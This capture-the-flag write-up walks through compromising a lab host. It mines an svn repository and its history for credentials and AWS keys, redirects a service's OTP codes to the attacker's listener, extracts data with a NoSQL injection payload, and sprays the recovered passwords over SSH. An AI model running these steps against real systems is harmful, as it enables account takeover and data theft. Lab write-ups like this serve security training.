



# Trade

With increasing breaches there has been equal increased demand for exploits and compromised hosts. Dark APT group has released an online store to sell such digital equipment. Being part of defense operations can you help disrupting their service ?

## Enum

We are given an IP address to start with, so a quick nmap scan shows us what's open

```
nmap -sV -sC -oA fulltcp -p- -vv 10.129.245.6

22/tcp   open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp   open  http     syn-ack Apache httpd 2.4.41
|_http-title: Monkey Backdoorz
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
3690/tcp open  svnserve syn-ack Subversion
```


### 3690 - Subversion
Allows us to checkout the repo
```
svn checkout svn://10.129.245.6
A    store
A    store/README.md
A    store/dynamo.py
A    store/sns.py
Checked out revision 5.


┌──(kali㉿kali)-[~/Downloads/htbctfbiz/store]
└─$ ls -al
total 24
drwxr-xr-x 2 kali kali 4096 Jul 16 00:58 .
drwxr-xr-x 4 kali kali 4096 Jul 16 00:58 ..
-rw-r--r-- 1 kali kali  948 Jul 16 00:58 dynamo.py
-rw-r--r-- 1 kali kali   19 Jul 16 00:58 README.md
-rw-r--r-- 1 kali kali 4695 Jul 16 00:58 sns.py
```

Looking at the scripts we see a few AWS services used, dynamodb, sns, and S3 buckets.
```
cat dynamo.py          
import boto3

client = boto3.client('dynamodb',
               region_name='us-east-2',
               endpoint_url='http://cloud.htb',
               aws_access_key_id='',
               aws_secret_access_key=''
               )

client.create_table(TableName='users',
        KeySchema=[
            {
                'AttributeName': 'username',
                'KeyType': 'HASH'
            },
            {
                'AttributeName': 'password',
                'KeyType': 'RANGE'
            },
        ],
        AttributeDefinitions=[
            {
                'AttributeName': 'username',
                'AttributeType': 'S'
            },
            {
                'AttributeName': 'password',
                'AttributeType': 'S'
            },
        ],
        ProvisionedThroughput={
            'ReadCapacityUnits': 5,
            'WriteCapacityUnits': 5,
        }
        )


client.put_item(TableName='users',
        Item={
                'username': {
                        'S': 'marcus'
                },
                'password': {
                        'S': 'dFc42BvUs02'
                },
        }
        )
```

We can see a username and password contained in the script, we are able to login to the main application using these.


*Figure 1: Login prompt on `http://10.129.245.6/`*

Once a successful login is made using `marcus` and `dFc42BvUs02`, a 2fa prompt appears.


*Figure 2: OTP prompt on `http://10.129.245.6/2fa`*


Going back to the subversion control we can see the message when we checked out said `Checked out revision 5.`
Exploring the previous revision we find some AWS creds contained in the script in revision 2

```
svn up -r 2

#!/usr/bin/env python              

from __future__ import print_function

import json                                                                                                                                    
import os                                                                                                                                      
import urllib                                                          
import zlib                                                                                                                                    

from time import strftime, gmtime                                                                                                              
import time                        

import boto3                                                           
import botocore                                                        
import concurrent.futures                                              

region = 'us-east-2'             
max_threads = os.environ['THREADS']                                   
log_time = os.environ['LOG_TIME']                                                                                                              
access_key = 'AKIA5<redacted>FFB'             
secret_access_key_id = 'cnVpO<redacted>bGOdn'

# Initialize clients                                                   
s3 = boto3.client('s3', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_ke
y_id)                                                                  
sns = boto3.client('sns', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_
key_id)                                                                
publish_errors = []                                                                                                                            
start_time = 0                                                         
end_time = 0                                                           
bucket = ''             
key = ''     
```


### AWS

Since we know from the scripts that at least 3 AWS services may be used, lambda, dynamodb, and SNS. We can start to enumerate them.
After setting up an AWS profile (which I called htbctf) containing the access key and secret.

Enumerating sns we see that a topic exists called "OTP".
```
aws sns --endpoint-url http://cloud.htb list-topics --region us-east-2 --profile htbctf                                                1
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

We are able to subscribe to this topic and have it send anything it publishes to us. I've just set it up to send to a netcat listener.

```
aws sns --endpoint-url http://cloud.htb --region us-east-2 --profile htbctf subscribe --topic-arn "arn:aws:sns:us-east-2:000000000000:otp" --protocol http --notification-endpoint "http://10.10.14.48:8000"
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:7ecf90ad-838d-40a4-8c4d-0a274f65f4cb"
}
```


Now when we login again, we'll see the OTP code gets sent to us, allowing us to pass the OTP prompt.


*Figure 3: Capuring OTP code on netcat listener*


### WEB

After logging in and submitting a valid OTP, we can see two pages `http://10.129.245.6/home` and `http://10.129.245.6/search`.

The search page allows us to submit a query for to search for "backdoorz".
When submitting a single double quote `"` we receive an error.

```
JSONDecodeError: {"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": """}]}}
```



 *Figure 3: error message on search*

We can submit a NoSQL injection to retrieve all items with the following payload `test"}],"ComparisonOperator": "GT", "AttributeValueList":[{"S": "*`



*Figure 4: NoSQL injection dynamodb*


This retrieves a list of backdoors, which contain usernames and passwords.

 ```
ServerName:	Medical servers
Username:	mega-medicorp\Administrator
Password:	cVfD#2Ds0%Gj
Shell Location:
ServerName:	MegaCorp
Username:	root
Password:	V0Fo@s9$vC
Shell Location:
ServerName:	ArmyCorp Access
Username:	mega-armycorp\Administrator
Password:	c_fV0@d43XoP
Shell Location:
ServerName:	Thycotic Servers Access
Username:	mario
Password:	cD034%hJqW10
Shell Location:
ServerName:	Telecom Access
Username:	root
Password:	cVFG04JcS2
Shell Location:
ServerName:	Logistics Console
Username:	root
Password:	b4ckd00r
Shell Location:	/corp_prod/xd04fs.jsp
```

Spraying these against the server using ssh we find that the threat actor re-used their password and we are able to ssh in as `mario` with the password `cD034%hJqW10`.

From here we can cat the flag out and we are done.
